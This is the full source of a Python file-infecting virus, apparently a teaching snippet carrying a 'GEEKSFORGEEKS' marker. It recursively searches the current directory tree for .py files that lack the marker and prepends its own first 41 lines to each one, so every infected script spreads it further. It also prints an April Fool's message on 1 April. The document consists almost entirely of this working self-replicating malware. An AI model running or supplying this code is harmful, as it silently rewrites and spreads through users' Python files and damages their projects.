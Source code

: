 #!/usr/bin/python  
import os, datetime, inspect  
DATA_TO_INSERT = "GEEKSFORGEEKS"
  
#search for target files in path 
def search(path):   
    filestoinfect = []  
    filelist = os.listdir(path)  
    for filename in filelist:  
          
        #If it is a folder 
        if os.path.isdir(path+"/"+filename):   
            filestoinfect.extend(search(path+"/"+filename))  
              
        #If it is a python script -> Infect it     
        elif filename[-3:] == ".py": 
              
            #default value 
            infected = False  
            for line in open(path+"/"+filename):  
                if DATA_TO_INSERT in line:  
                    infected = True
                    break
            if infected == False:  
                filestoinfect.append(path+"/"+filename)  
    return filestoinfect  
  
#changes to be made in the target file  
def infect(filestoinfect):  
    target_file = inspect.currentframe().f_code.co_filename  
    virus = open(os.path.abspath(target_file))  
    virusstring = ""  
    for i,line in enumerate(virus):  
        if i>=0 and i <41:  
            virusstring += line  
    virus.close  
    for fname in filestoinfect:  
        f = open(fname)  
        temp = f.read()  
        f.close()  
        f = open(fname,"w")  
        f.write(virusstring + temp)  
        f.close()  
          
#Not required actually         
def explode():  
    if datetime.datetime.now().month == 4 and datetime.datetime.now().day == 1:  
            print ("HAPPY APRIL FOOL'S DAY!!") 
filestoinfect = search(os.path.abspath(""))  
infect(filestoinfect)  
explode()  
